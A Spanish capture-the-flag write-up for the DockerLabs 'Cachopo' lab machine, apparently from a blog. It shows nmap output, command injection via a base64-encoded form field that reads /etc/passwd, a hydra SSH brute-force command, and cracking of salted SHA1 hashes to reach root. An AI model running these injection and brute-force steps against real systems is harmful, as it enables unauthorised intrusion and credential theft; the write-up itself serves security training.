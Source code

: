```yaml
---
title: Cachopo
author: Ldeluq
date: 2019-08-08 14:10:00 +0800
categories: [Ctf, DockerLabs]
tags: [ciber]
render_with_liquid: false
---
```




Nmap

```
sudo nmap -p- --open -sSCV --min-rate 5000 -vvv -Pn 172.17.0.2 -oN nmap.txt
```

```
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 64 OpenSSH 9.6p1 Ubuntu 3ubuntu13.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 7b:98:d4:e7:ec:50:0b:b2:3a:21:76:2c:45:95:23:61 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBEjW7OFr3vBvcqYorxu8cbiAsLnl1KxEId5AjI88T+pHcpP1tlFZROjtLlMTl6/qbg3SvyDoh75cLiLq/nG5d1U=
|   256 5d:15:2b:28:ec:67:7e:78:3c:16:12:65:2f:59:d4:88 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIKiE4JB9YEGU2mtWJP7VMmr5R60+RXwvThaYJ//r0T9h
80/tcp open  http    syn-ack ttl 64 Werkzeug/3.0.3 Python/3.12.3
| http-methods: 
|_  Supported Methods: OPTIONS GET HEAD
|_http-title: Cahopos4-4ll
|_http-server-header: Werkzeug/3.0.3 Python/3.12.3
| fingerprint-strings: 
|   GetRequest: 
|     HTTP/1.1 200 OK
|     Server: Werkzeug/3.0.3 Python/3.12.3
|     Date: Thu, 22 Aug 2024 16:23:50 GMT
|     Content-Type: text/html; charset=utf-8
|     Content-Length: 9332
|     Connection: close
|     <!DOCTYPE html>
|     <html>
|     <head>
|     <meta charset="UTF-8">
|     <meta name="viewport" content="width=device-width initial-scale=1.0">
|     <link rel="stylesheet" href="/static/css/style.css">
|     <title>Cahopos4-4ll</title>
|     </head>
|     <header>
|     <nav>
|     <h2><a href="/" id="logo">DockerLabs</a></h2>
|     <button class="nav-button fa fa-bars"></button>
|     <div>
|     <!-- <ul> -->
|     <ul>
|     <button class="exit-menu fa fa-times"></button>
|     <li><a href="#" class="active">welcome</a></li>
|     <li><a href="#">menu</a></li>
|     <li><a href="#">reservations</a></li>
|     <li><a href="#">news</a></li>
|     <li><a href="#">contact</a></li>
|     </ul>
|     <!-- </ul> -->
|     </div>
|     </nav>
|     <div cl
|   HTTPOptions: 
|     HTTP/1.1 200 OK
|     Server: Werkzeug/3.0.3 Python/3.12.3
|     Date: Thu, 22 Aug 2024 16:23:50 GMT
|     Content-Type: text/html; charset=utf-8
|     Allow: OPTIONS, GET, HEAD
|     Content-Length: 0
|     Connection: close
|   RTSPRequest: 
|     <!DOCTYPE HTML>
|     <html lang="en">
|     <head>
|     <meta charset="utf-8">
|     <title>Error response</title>
|     </head>
|     <body>
|     <h1>Error response</h1>
|     <p>Error code: 400</p>
|     <p>Message: Bad request version ('RTSP/1.0').</p>
|     <p>Error code explanation: 400 - Bad request syntax or unsupported method.</p>
|     </body>
|_    </html>
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port80-TCP:V=7.94SVN%I=7%D=8/22%Time=66C76616%P=x86_64-pc-linux-gnu%r(G
SF:etRequest,2523,"HTTP/1\.1\x20200\x20OK\r\nServer:\x20Werkzeug/3\.0\.3\x
SF:20Python/3\.12\.3\r\nDate:\x20Thu,\x2022\x20Aug\x202024\x2016:23:50\x20
SF:GMT\r\nContent-Type:\x20text/html;\x20charset=utf-8\r\nContent-Length:\
SF:x209332\r\nConnection:\x20close\r\n\r\n<!DOCTYPE\x20html>\n<html>\n\x20
SF:\x20<head>\n\x20\x20\x20\x20<meta\x20charset=\"UTF-8\">\n\x20\x20\x20\x
SF:20<meta\x20name=\"viewport\"\x20content=\"width=device-width\x20initial
SF:-scale=1\.0\">\n\x20\x20\x20\x20<link\x20rel=\"stylesheet\"\x20href=\"/
SF:static/css/style\.css\">\n\x20\x20\x20\x20<title>Cahopos4-4ll</title>\n
SF:\x20\x20</head>\n<header>\n\x20\x20<nav>\n\x20\x20\x20\x20<h2><a\x20hre
SF:f=\"/\"\x20id=\"logo\">DockerLabs</a></h2>\n\x20\x20\x20\x20<button\x20
SF:class=\"nav-button\x20fa\x20fa-bars\"></button>\n\x20\x20\x20\x20<div>\
SF:n<!--\x20\x20\x20\x20\x20<ul>\x20-->\n\x20\x20\x20\x20\x20\x20<ul>\n\x2
SF:0\x20\x20\x20\x20\x20\x20\x20<button\x20class=\"exit-menu\x20fa\x20fa-t
SF:imes\"></button>\n\x20\x20\x20\x20\x20\x20\x20\x20<li><a\x20href=\"#\"\
SF:x20class=\"active\">welcome</a></li>\n\x20\x20\x20\x20\x20\x20\x20\x20<
SF:li><a\x20href=\"#\">menu</a></li>\n\x20\x20\x20\x20\x20\x20\x20\x20<li>
SF:<a\x20href=\"#\">reservations</a></li>\n\x20\x20\x20\x20\x20\x20\x20\x2
SF:0<li><a\x20href=\"#\">news</a></li>\n\x20\x20\x20\x20\x20\x20\x20\x20<l
SF:i><a\x20href=\"#\">contact</a></li>\n\x20\x20\x20\x20\x20\x20</ul>\n<!-
SF:-\x20\x20\x20\x20\x20</ul>\x20-->\n\x20\x20\x20\x20</div>\n\x20\x20</na
SF:v>\n\x20\x20<div\x20cl")%r(HTTPOptions,C7,"HTTP/1\.1\x20200\x20OK\r\nSe
SF:rver:\x20Werkzeug/3\.0\.3\x20Python/3\.12\.3\r\nDate:\x20Thu,\x2022\x20
SF:Aug\x202024\x2016:23:50\x20GMT\r\nContent-Type:\x20text/html;\x20charse
SF:t=utf-8\r\nAllow:\x20OPTIONS,\x20GET,\x20HEAD\r\nContent-Length:\x200\r
SF:\nConnection:\x20close\r\n\r\n")%r(RTSPRequest,16C,"<!DOCTYPE\x20HTML>\
SF:n<html\x20lang=\"en\">\n\x20\x20\x20\x20<head>\n\x20\x20\x20\x20\x20\x2
SF:0\x20\x20<meta\x20charset=\"utf-8\">\n\x20\x20\x20\x20\x20\x20\x20\x20<
SF:title>Error\x20response</title>\n\x20\x20\x20\x20</head>\n\x20\x20\x20\
SF:x20<body>\n\x20\x20\x20\x20\x20\x20\x20\x20<h1>Error\x20response</h1>\n
SF:\x20\x20\x20\x20\x20\x20\x20\x20<p>Error\x20code:\x20400</p>\n\x20\x20\
SF:x20\x20\x20\x20\x20\x20<p>Message:\x20Bad\x20request\x20version\x20\('R
SF:TSP/1\.0'\)\.</p>\n\x20\x20\x20\x20\x20\x20\x20\x20<p>Error\x20code\x20
SF:explanation:\x20400\x20-\x20Bad\x20request\x20syntax\x20or\x20unsupport
SF:ed\x20method\.</p>\n\x20\x20\x20\x20</body>\n</html>\n");
MAC Address: 02:42:AC:11:00:02 (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```



Web

No hay más directorios, es una única página.

![](https://hacking-3.gitbook.io/~gitbook/image?url=https%3A%2F%2F2700507804-files.gitbook.io%2F%7E%2Ffiles%2Fv0%2Fb%2Fgitbook-x-prod.appspot.com%2Fo%2Fspaces%252FXLTbJaeg92PRVBDD3bHb%252Fuploads%252FKjUCgIeO2PO4CM3le6Fk%252Fspaces_ahcNR6VKhCehPgx4pP6z_uploads_GUCxVqH0z4dAsBRAOtnu_image.webp%3Falt%3Dmedia%26token%3D3d63063c-cc0b-4fc6-a2aa-74d92cf9ac2e&width=768&dpr=4&quality=100&sign=91227e65&sv=1)

![](https://hacking-3.gitbook.io/~gitbook/image?url=https%3A%2F%2F2700507804-files.gitbook.io%2F%7E%2Ffiles%2Fv0%2Fb%2Fgitbook-x-prod.appspot.com%2Fo%2Fspaces%252FXLTbJaeg92PRVBDD3bHb%252Fuploads%252FGGn6tgW2Bc4C3kY6phYp%252Fspaces_ahcNR6VKhCehPgx4pP6z_uploads_JtUz9ROz6H3cPCuHLMTi_image.webp%3Falt%3Dmedia%26token%3D600f7e50-b060-4efc-aa2f-9f47831d68d3&width=768&dpr=4&quality=100&sign=2b6af827&sv=1)

En esta pagina no nos dice nada muy relevante, lo único útil que tenemos en un panel de reservas, vamos a ver que es lo que manda.

Burpsuite

![](https://hacking-3.gitbook.io/~gitbook/image?url=https%3A%2F%2F2700507804-files.gitbook.io%2F%7E%2Ffiles%2Fv0%2Fb%2Fgitbook-x-prod.appspot.com%2Fo%2Fspaces%252FXLTbJaeg92PRVBDD3bHb%252Fuploads%252Fb4SQJs8k7Iwd101VvqPN%252Fimage.png%3Falt%3Dmedia%26token%3D0a8fbab4-a5f9-4693-bd49-6f1069681f1b&width=768&dpr=4&quality=100&sign=2c338cf0&sv=1)

Nos da un error, por lo que probamos a convertir esta misma palabra a base64

![](https://hacking-3.gitbook.io/~gitbook/image?url=https%3A%2F%2F2700507804-files.gitbook.io%2F%7E%2Ffiles%2Fv0%2Fb%2Fgitbook-x-prod.appspot.com%2Fo%2Fspaces%252FXLTbJaeg92PRVBDD3bHb%252Fuploads%252Fgc8rKf41XLnI6crH2dHQ%252Fspaces_ahcNR6VKhCehPgx4pP6z_uploads_rA8CHjfbK4eq7coOQ8Fj_image.webp%3Falt%3Dmedia%26token%3D182045cb-9535-49ac-a0be-d234386fa364&width=768&dpr=4&quality=100&sign=feb7cda1&sv=1)

Ahora el error ha cambiado, probemos a ejecutar algún comando de shell codificado en base64

![](https://hacking-3.gitbook.io/~gitbook/image?url=https%3A%2F%2F2700507804-files.gitbook.io%2F%7E%2Ffiles%2Fv0%2Fb%2Fgitbook-x-prod.appspot.com%2Fo%2Fspaces%252FXLTbJaeg92PRVBDD3bHb%252Fuploads%252FPGdmBBvSQKN2MhORNhSj%252Fspaces_ahcNR6VKhCehPgx4pP6z_uploads_B0msQb9gcxsP7cKrMbc2_image.webp%3Falt%3Dmedia%26token%3Dcf44d4b3-9875-4fdf-a6fd-4f0af0ef2ab2&width=768&dpr=4&quality=100&sign=805c4403&sv=1)

El comando es: cat /etc/passwd

Ahora tenemos el usuario `cachopin`, por lo que podemos probar a hacer un ataque de fuerza bruta con hydra.

```
hydra -l cachopin -P /usr/share/wordlists/rockyou.txt 172.17.0.2 ssh -t 64
```

![](https://hacking-3.gitbook.io/~gitbook/image?url=https%3A%2F%2F2700507804-files.gitbook.io%2F%7E%2Ffiles%2Fv0%2Fb%2Fgitbook-x-prod.appspot.com%2Fo%2Fspaces%252FXLTbJaeg92PRVBDD3bHb%252Fuploads%252FvVzlfUASDYprdMikQa2c%252Fspaces_ahcNR6VKhCehPgx4pP6z_uploads_ZCxjSI3ejWsyu79sQHaP_image.webp%3Falt%3Dmedia%26token%3D27b5ce39-2c86-4542-bc9c-d0c55a25d0e7&width=768&dpr=4&quality=100&sign=d27cfb38&sv=1)



Escalado de privilegios

Miramos permisos de este usuario

![](https://hacking-3.gitbook.io/~gitbook/image?url=https%3A%2F%2F2700507804-files.gitbook.io%2F%7E%2Ffiles%2Fv0%2Fb%2Fgitbook-x-prod.appspot.com%2Fo%2Fspaces%252FXLTbJaeg92PRVBDD3bHb%252Fuploads%252FZWe5ZhUyeUPUXkfUonVB%252Fimage.png%3Falt%3Dmedia%26token%3Dfb5def66-71e4-4012-86d0-205a83a7117b&width=768&dpr=4&quality=100&sign=64dcb2d5&sv=1)

Miramos que tiene esta maquina dentro

![](https://hacking-3.gitbook.io/~gitbook/image?url=https%3A%2F%2F2700507804-files.gitbook.io%2F%7E%2Ffiles%2Fv0%2Fb%2Fgitbook-x-prod.appspot.com%2Fo%2Fspaces%252FXLTbJaeg92PRVBDD3bHb%252Fuploads%252FD1b4tIIFZVrJ2X3Avj6f%252Fimage.png%3Falt%3Dmedia%26token%3D7ae74eec-832b-491c-84d4-2640963d2363&width=768&dpr=4&quality=100&sign=7185a370&sv=1)



![](https://hacking-3.gitbook.io/~gitbook/image?url=https%3A%2F%2F2700507804-files.gitbook.io%2F%7E%2Ffiles%2Fv0%2Fb%2Fgitbook-x-prod.appspot.com%2Fo%2Fspaces%252FXLTbJaeg92PRVBDD3bHb%252Fuploads%252FEPVqimWWuTzucKt7tU74%252Fimage.png%3Falt%3Dmedia%26token%3D11f11e84-5e17-4bfb-a119-ca1b5470cef4&width=768&dpr=4&quality=100&sign=659faeeb&sv=1)

Si seguimos mirando daremos con una lista de hashes generados en SHA1

![](https://hacking-3.gitbook.io/~gitbook/image?url=https%3A%2F%2F2700507804-files.gitbook.io%2F%7E%2Ffiles%2Fv0%2Fb%2Fgitbook-x-prod.appspot.com%2Fo%2Fspaces%252FXLTbJaeg92PRVBDD3bHb%252Fuploads%252FELhwwQqyO7s3cMuVYiSc%252Fimage.png%3Falt%3Dmedia%26token%3Dfcd0d5bb-ae87-4968-86e7-dc66de79a020&width=768&dpr=4&quality=100&sign=c5e2bc56&sv=1)

Parece que estos hashes están modificados en base64, si le preguntamos a ChatGPT no dice:

![](https://hacking-3.gitbook.io/~gitbook/image?url=https%3A%2F%2F2700507804-files.gitbook.io%2F%7E%2Ffiles%2Fv0%2Fb%2Fgitbook-x-prod.appspot.com%2Fo%2Fspaces%252FXLTbJaeg92PRVBDD3bHb%252Fuploads%252F9sDOUIOg3SQDKB72rmee%252Fspaces_ahcNR6VKhCehPgx4pP6z_uploads_wen1hQtavE4a08uHykC3_image.webp%3Falt%3Dmedia%26token%3Dbb6e2ebe-5cd8-427b-b0b8-ca4cae480424&width=768&dpr=4&quality=100&sign=15adc2ac&sv=1)

Tras hacer varias pruebas con estos hashes no saco nada por lo que sigo buscando pero imposible, la única forma de descifrar estos hashes es con la herramienta del creador de la maquina [@PatxaSec](https://github.com/PatxaSec/SHA_Decrypt)

![](https://hacking-3.gitbook.io/~gitbook/image?url=https%3A%2F%2F2700507804-files.gitbook.io%2F%7E%2Ffiles%2Fv0%2Fb%2Fgitbook-x-prod.appspot.com%2Fo%2Fspaces%252FXLTbJaeg92PRVBDD3bHb%252Fuploads%252Fsh0LDtFWRjZaC8E682L9%252Fimage.png%3Falt%3Dmedia%26token%3Da8d1effd-7f7f-493a-9c35-9dfda8e420fe&width=768&dpr=4&quality=100&sign=ba5d25f6&sv=1)

Si usamos esta herramienta sacaremos 2 posibles contraseñas

```
python3 /opt/SHA_Decrypt/sha2text.py 'd' '$SHA1$d$BjkVArB9RcGUs3sgVKyAvxzH0eA=' '/usr/share/w
```

![](https://hacking-3.gitbook.io/~gitbook/image?url=https%3A%2F%2F2700507804-files.gitbook.io%2F%7E%2Ffiles%2Fv0%2Fb%2Fgitbook-x-prod.appspot.com%2Fo%2Fspaces%252FXLTbJaeg92PRVBDD3bHb%252Fuploads%252FWVz5RE9Y1PWtPL9wIQYe%252Fspaces_ahcNR6VKhCehPgx4pP6z_uploads_hcCceDKMwvGhgxWJrILN_image.webp%3Falt%3Dmedia%26token%3Df3013d5d-2ed3-48b1-b9a2-7449da216e52&width=768&dpr=4&quality=100&sign=c7a74f7d&sv=1)

![](https://hacking-3.gitbook.io/~gitbook/image?url=https%3A%2F%2F2700507804-files.gitbook.io%2F%7E%2Ffiles%2Fv0%2Fb%2Fgitbook-x-prod.appspot.com%2Fo%2Fspaces%252FXLTbJaeg92PRVBDD3bHb%252Fuploads%252FQzOy5C8JTuwV9qALLlpa%252Fspaces_ahcNR6VKhCehPgx4pP6z_uploads_XTvMxVP41nFKyRlDmmVR_image.webp%3Falt%3Dmedia%26token%3De2a30a6d-3c09-4bb1-9a9c-d3741f8d3475&width=768&dpr=4&quality=100&sign=64ad2097&sv=1)

Si las probamos en el usuario de root una de ellas sera la buena y ya seremos root

![](https://hacking-3.gitbook.io/~gitbook/image?url=https%3A%2F%2F2700507804-files.gitbook.io%2F%7E%2Ffiles%2Fv0%2Fb%2Fgitbook-x-prod.appspot.com%2Fo%2Fspaces%252FXLTbJaeg92PRVBDD3bHb%252Fuploads%252Fz1CqwnK8LGcaW4CDVHCG%252Fspaces_ahcNR6VKhCehPgx4pP6z_uploads_BF8EH3BdjJxECHF3dwE4_image.webp%3Falt%3Dmedia%26token%3Df5aadc28-aa87-4e72-8c5d-b24e28ac2e0e&width=768&dpr=4&quality=100&sign=8dccd2a7&sv=1)
